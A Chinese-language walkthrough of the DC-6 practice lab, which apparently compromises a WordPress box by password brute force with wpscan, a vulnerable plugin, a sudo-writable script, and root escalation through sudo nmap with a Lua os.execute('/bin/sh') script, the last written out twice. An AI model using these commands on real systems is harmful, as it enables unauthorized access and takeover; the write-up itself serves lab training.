 # DC6 
## 简述  
wordpress 通过密码爆破进入 使用带有漏洞的插件拿到shell 进行提权 
## 服务发现和漏洞   
同样需要设置hosts别忘记了  
```
wpscan --url http://wordy/ -P passwords.txt
```
### 插件漏洞
![20191129191618.png](https://i.loli.net/2019/11/29/BrWy1xzZcJROk9i.png)
查询其中的插件，发现其中的插件存在漏洞  
![20191129192713.png](https://i.loli.net/2019/11/29/xaGgBcMAkXZ3zu7.png)
然后使用这个漏洞进入
![20191129193217.png](https://i.loli.net/2019/11/29/QCqJdaAk3thxuys.png)
拿到权限最普通的权限  



## 提权   
### 翻看数据信息  
![20191129193431.png](https://i.loli.net/2019/11/29/42qdmoWja1K5Nx6.png)  
翻到其中的数据然后使用ssh进行登录  
![20191129194444.png](https://i.loli.net/2019/11/29/hUrbutzey9qsIw1.png)  
这里的意思之前是理解错了 实际的意思是说你可以使用jens 运行backups.sh这个脚本，但是你不是jens 但是你可以使用sudo -u 指定用户这样也是可以的，在那其中sh脚本当中写入 /bin/sh  
![20191129195643.png](https://i.loli.net/2019/11/29/bitaprcvXP7IegS.png)  
这样你就是jens了  
又进行提示了  
```
用某个用户执行某个命令  
sudo -u username *.sh 
```
![20191129195810.png](https://i.loli.net/2019/11/29/tQjM5428mvulbkH.png)
### nmap 提权
网上说的nmap提权一般有两种
1. 版本比较老  
![20191129220202.png](https://i.loli.net/2019/11/29/Qt5P3iemnRg1Ab8.png)
2. 版本比较新  
![20191129220617.png](https://i.loli.net/2019/11/29/eT8aklQdBfscxqI.png)
别忘了 sudo 
![20191129220743.png](https://i.loli.net/2019/11/29/PTEshGNWMebq4Sv.png)    
```
TK =$(mktemp)
echo 'os.execute("/bin/sh")' >$TK  
nmap --script=$TK
```
## 总结  
前端存在漏洞的插件，翻看服务器数据拿到一个key，登录上去之后使用sudo- u  的方法并且修改脚本当中的内容从而转换成了另外一个用户，最后使用sudo -l 的nmap操作进行提权  
### 操作  
wpscan --url http://wordy/ -P passwords.txt  -api vt  查询网站当中的漏洞插件  
sudo -l 查询不使用sudo就能执行的命令  
nmap提权  
TK =$(mktemp)
echo 'os.execute("/bin/sh")' >$TK  
nmap --script=$TK


